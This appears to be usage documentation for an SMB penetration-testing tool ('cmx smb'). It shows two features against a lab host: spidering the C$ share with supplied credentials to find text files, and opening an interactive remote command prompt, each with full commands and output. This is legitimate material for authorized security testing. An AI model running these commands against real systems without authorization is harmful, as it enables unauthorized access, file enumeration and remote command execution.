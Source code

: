 
--------------------------------------------------------------------------------------------------------------------------------------------------------
--------------------------------------------------------------------------------------------------------------------------------------------------------
# Spidering Shares

| Multiple_Host | Requires DC | Requires LA | Requires DA | Opsec_safe |
|---------------|-------------|-------------|-------------|------------|
| true          | false       | false       | false       | true*      |

Options for spidering shares of remote systems.

## \*\*\*Spider the C drive for files with txt in the name (finds both sometxtfile.html and somefile.txt)
Notice the '$' character has to be escaped. 
Example:  
```
#~ cmx smb 10.10.33.123 -u agrande -p User\!23 --spider C\$ --pattern txt

Aug.20.19 16:06:16  SMB         10.10.33.123:445  10.10.33.123 [*] Windows 6.1 Build 7601 x64 (domain:OCEAN) (signing:True) (SMBv:2.1)
Aug.20.19 16:06:16  SMB         10.10.33.123:445  10.10.33.123 [+] OCEAN\agrande:User!23 (Pwn3d!)
Aug.20.19 16:06:16         [!] Starting Spider [!]
Aug.20.19 16:06:16  SMB         10.10.33.123:445  10.10.33.123 [*] Started spidering
Aug.20.19 16:06:16  SMB         10.10.33.123:445  10.10.33.123 [*] Spidering .
Aug.20.19 16:06:18  SMB         10.10.33.123:445  10.10.33.123 //10.10.33.123/C$/Program Files/DVD Maker/Shared/DvdStyles/Pets/Pets_notes-txt-background.png [lastm:'2019-01-17 13:57' size:7888]
Aug.20.19 16:06:18  SMB         10.10.33.123:445  10.10.33.123 //10.10.33.123/C$/Program Files/VMware/VMware Tools/open_source_licenses.txt [lastm:'2019-01-17 12:34' size:607486]
Aug.20.19 16:06:18  SMB         10.10.33.123:445  10.10.33.123 //10.10.33.123/C$/Program Files/VMware/VMware Tools/vmacthlp.txt [lastm:'2019-01-17 12:34' size:233]
Aug.20.19 16:06:18  SMB         10.10.33.123:445  10.10.33.123 //10.10.33.123/C$/Program Files/Windows NT/TableTextService/TableTextServiceAmharic.txt [lastm:'2019-01-17 13:57' size:16212]
Aug.20.19 16:06:18  SMB         10.10.33.123:445  10.10.33.123 //10.10.33.123/C$/Program Files/Windows NT/TableTextService/TableTextServiceArray.txt [lastm:'2019-01-17 13:57' size:1272822]
```


--------------------------------------------------------------------------------------------------------------------------------------------------------
--------------------------------------------------------------------------------------------------------------------------------------------------------
# Interactive Shell Mode

| Multiple_Host | Requires DC | Requires LA | Requires DA | Opsec_safe |
|---------------|-------------|-------------|-------------|------------|
| false         | false       | true        | false       | true*      |

Gain a command prompt on the target.  

## Interactive Mode
User/Password
```
#~ cmx smb 10.10.33.123 -u agrande -p User\!23 -i
Aug.20.19 14:31:31  SMB         10.10.33.123:445  10.10.33.123 [*] Windows 6.1 Build 7601 x64 (domain:OCEAN) (signing:True) (SMBv:2.1)
Aug.20.19 14:31:31  SMB         10.10.33.123:445  10.10.33.123 [+] OCEAN\agrande:User!23 (Pwn3d!)
Aug.20.19 14:31:31         [!] Bout to get shellular [!]
   .... i'm in 

C:\Windows\system32> hostname
Win7E-PC

C:\Windows\system32>
```